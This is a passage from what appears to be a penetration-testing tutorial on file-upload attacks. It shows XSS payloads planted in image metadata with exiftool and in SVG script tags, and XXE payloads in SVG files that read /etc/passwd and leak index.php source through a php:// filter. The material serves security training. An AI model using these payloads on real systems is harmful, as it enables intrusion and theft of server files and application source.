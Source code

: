 ```
Another example of XSS attacks is web applications that display an image's metadata after its upload. For such web applications, we can include an XSS payload in one of the Metadata parameters that accept raw text, like the Comment or Artist parameters, as follows:

```$ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg```

When the image's metadata is displayed, the XSS payload should be triggered, and the JavaScript code will be executed to carry the XSS attack. Furthermore, if we change the image's MIME-Type to text/html, some web applications may show it as an HTML document instead of an image, in which case the XSS payload would be triggered even if the metadata wasn't directly displayed.

Finally, XSS attacks can also be carried with SVG images, along with several other attacks. Scalable Vector Graphics (SVG) images are XML-based, and they describe 2D vector graphics, which the browser renders into an image. For this reason, we can modify their XML data to include an XSS payload. For example, we can write the following to HTB.svg:

```
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
    <svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
        <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
        <script type="text/javascript">alert("window.origin");</script>
    </svg>
```



### XXE

Similar attacks can be carried to lead to XXE exploitation. With SVG images, we can also include malicious XML data to leak the source code of the web application, and other internal documents within the server. The following example can be used for an SVG image that leaks the content of (/etc/passwd):
```
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <svg>&xxe;</svg>
```

While reading systems files like /etc/passwd can be very useful for server enumeration, it can have an even more significant benefit for web penetration testing, as it allows us to read the web application's source files. Access to the source code will enable us to find more vulnerabilities to exploit within the web application through Whitebox Penetration Testing. For File Upload exploitation, it may allow us to locate the upload directory, identify allowed extensions, or find the file naming scheme, which may become handy for further exploitation.

```
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
    <svg>&xxe;</svg>
```

Using XML data is not unique to SVG images, as it is also utilized by many types of documents, like PDF, Word Documents, PowerPoint Documents, among many others. All of these documents include XML data within them to specify their format and structure. Suppose a web application used a document viewer that is vulnerable to XXE and allowed uploading any of these documents. In that case, we may also modify their XML data to include the malicious XXE elements, and we would be able to carry a blind XXE attack on the back-end web server.



    
    
